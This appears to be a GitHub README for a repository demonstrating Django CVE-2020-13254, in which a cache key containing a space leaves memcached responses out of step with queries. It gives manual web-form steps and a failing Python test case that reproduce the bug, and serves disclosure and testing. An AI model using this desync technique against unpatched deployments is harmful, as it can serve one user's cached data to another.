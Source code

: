 # Django CVE-2020-13254

This repository demonstrates exploitation of CVE-2020-13254 in two ways – via a
web interface and via a failing test case.

For more details visit:

<https://danpalmer.me/2020-06-07-django-memcache-vulnerability/>

### Exploiting via the web

The example provides a web interface with 2 forms, one that sets values in the
cache and the other that gets them. These are directly translated into calls to
the Django cache backend. Because the codebase does not implement any session or
authentication system, multiple uses in the same browser tab are
indistinguishable from multiple users using between machines.

To exploit:

1. Set keys of **A** and **B** to values **a** and **b**.
2. Attempt to set **C D** to value **c d**. This will error.
3. Attempt to retrieve key **A**, there will incorrectly be no result.
4. Attempt to retrieve key **B**, the result will incorrectly be **a**.

### Demo via tests

This process can be expressed as a test case as such:

```python
from django.core.cache import cache
from django.test import TestCase


class CacheTests(TestCase):
    def test_cache(self):
        cache.set('k1', 'v1')
        cache.set('k2', 'v2')
        try:
            cache.set('a b', 'v3')
        except Exception:
            pass
        self.assertEqual(
            [
              cache.get(x) for x in
              ['k2', 'k1', 'k2', 'k1', 'k2', 'k1']
            ],
            ['v2', 'v1', 'v2', 'v1', 'v2', 'v1'],
        )
```

This fails with the following error:

```
=============================================================
FAIL: test_cache (demo.tests.CacheTests)
-------------------------------------------------------------
Traceback (most recent call last):
  File "tests.py", line 30, in test_cache
    'v1',
AssertionError: Lists differ

First differing element 0:
None
'v2'

- [None, 'v2', 'v1', 'v2', 'v1', 'v2']
?  ------

+ ['v2', 'v1', 'v2', 'v1', 'v2', 'v1']
?                              ++++++

-------------------------------------------------------------
```

After the `set`, the cache results being returned are out of step with the
queries being made.
